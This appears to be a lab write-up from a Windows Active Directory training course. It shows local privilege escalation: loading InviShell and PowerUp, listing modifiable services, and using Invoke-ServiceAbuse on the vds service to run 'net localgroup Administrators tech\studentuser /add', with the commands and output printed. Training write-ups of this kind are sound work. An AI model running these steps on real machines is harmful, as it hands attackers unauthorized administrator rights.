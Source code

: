 ![studvm | studentuser $>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%24>]-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Import-Module C:\AD\Tools\PowerUp.ps1`

`Invoke-AllChecks`:
```
[SNIP]

ServiceName                     : gupdate📌
Path                            : "C:\Program Files (x86)\Google\Update\GoogleUpdate.exe" /svc
ModifiableFile                  : C:\
ModifiableFilePermissions       : AppendData/AddSubdirectory
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem📌
AbuseFunction                   : Install-ServiceBinary -Name 'gupdate'
CanRestart                      : False❌
Name                            : gupdate
Check                           : Modifiable Service Files

[SNIP]

ServiceName   : vds📌
Path          : C:\Windows\System32\vds.exe
StartName     : LocalSystem📌
AbuseFunction : Invoke-ServiceAbuse -Name 'vds'
CanRestart    : True📌
Name          : vds
Check         : Modifiable Services

[SNIP]
```

`Invoke-ServiceAbuse -Name 'vds' -UserName 'tech\studentuser' -Verbose`:
```
VERBOSE: Service 'vds' original path: 'C:\Windows\System32\vds.exe'
VERBOSE: Service 'vds' original state: 'Running'
VERBOSE: Executing command 'net localgroup Administrators tech\studentuser /add'
VERBOSE: binPath for vds successfully set to 'net localgroup Administrators tech\studentuser /add'⏫
VERBOSE: Restoring original path to service 'vds'
VERBOSE: binPath for vds successfully set to 'C:\Windows\System32\vds.exe'
VERBOSE: Restarting 'vds'

ServiceAbused Command
------------- -------
vds           net localgroup Administrators tech\studentuser /add⏫
```

![studvm | studentuser #>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%23>]-64b5f6?logo=windows11&logoColor=white)
